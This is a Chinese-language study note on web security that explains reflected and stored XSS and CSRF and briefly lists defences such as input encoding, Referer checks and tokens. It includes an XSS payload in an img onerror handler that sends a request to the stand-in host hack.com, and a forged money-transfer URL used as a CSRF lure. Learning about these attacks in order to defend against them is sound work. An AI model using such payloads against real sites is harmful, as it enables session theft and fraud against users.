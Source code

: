 ##web安全

### - XSS
> `cross site scripting` 跨站脚本攻击 
>  攻击者往 web 页面插入恶意 Script 代码，  
>  当其他用户浏览该网页时，嵌入的脚本代码就会被执行，从而到达恶意攻击用户的目的

1. 反射型 

> https://www.xxx.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
> 很多站点都提供搜索服务，如果把搜索的关键词修改为可执行的javascript语句  
> 服务器不加处理将类似的代码现实到页面  
> XSS代码将会被执行

2. 存储型

> 利用站点本身合法的存储结构，通过站点提供的接口提交XSS代码  
> 会被存储到服务器上 当其他用户访问该网页时，服务器把包含XSS的内容反馈给用户  
> 从而攻击用户

##### 服务器都会将javascript当作文本处理， 在服务端整合进HTML文档中
##### 在浏览器解析这些文本的过程 也就是XSS被执行的时候
##### 所有最主要的防范措施就是 对任何用户提交到服务器上的文本都要经过编码或者转译



### - CSRF
> `cross-site request forgery` 跨站请求伪造  
> 通过伪装来自守信用户的请求来利用  
> 攻击者盗用了你的身份，以你的名义发送恶意请求  

> 我们先假设支付宝存在CSRF漏洞，我的支付宝账号是lyq，攻击者的支付宝账号是xxx。  
> 然后我们通过网页请求的方式 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2  
> 可以把我账号lyq的10000元转到我的另外一个账号lyq2上去。通常情况下，该请求发送到支付宝服务器后,  
> 服务器会先验证该请求是否来自一个合法的session并且该session的用户已经成功登陆。攻击者在支付吧也有账号xxx， 
> 他知道上文中的URL可以进行转账操作，于是他自己可以发送一个请求 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx 到支付宝后台。  
> 但是这个请求是来自攻击者而不是来自我lyq，所以不能通过安全认证，因此该请求作废。  
> 这时，攻击者xxx想到了用CSRF的方式，他自己做了个黄色网站，在网站中放了如下代码：http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx并且通过黄色链接诱使我来访问他的网站。  
> 当我禁不住诱惑时就会点了进去，上述请求就会从我自己的浏览器发送到支付宝，  
> 而且这个请求会附带我的浏览器中的cookie。  
> 大多数情况下，该请求会失败，因为支付宝要求我的认证信息，但是我如果刚访问支付宝不久，还没有关闭支付宝页面，  
> 我的浏览器中的cookie存有我的认证信息，这个请求就会得到响应，从我的账户中转10000元到xxx账户里，而我丝毫不知情，攻击者拿到钱后逍遥法外。所以以后一定要克制住自己，不要随便打开别人的链接。

#### CSRF 防御错书主要有验证 HTTP Referer 字段，和 添加 token 验证、验证码 




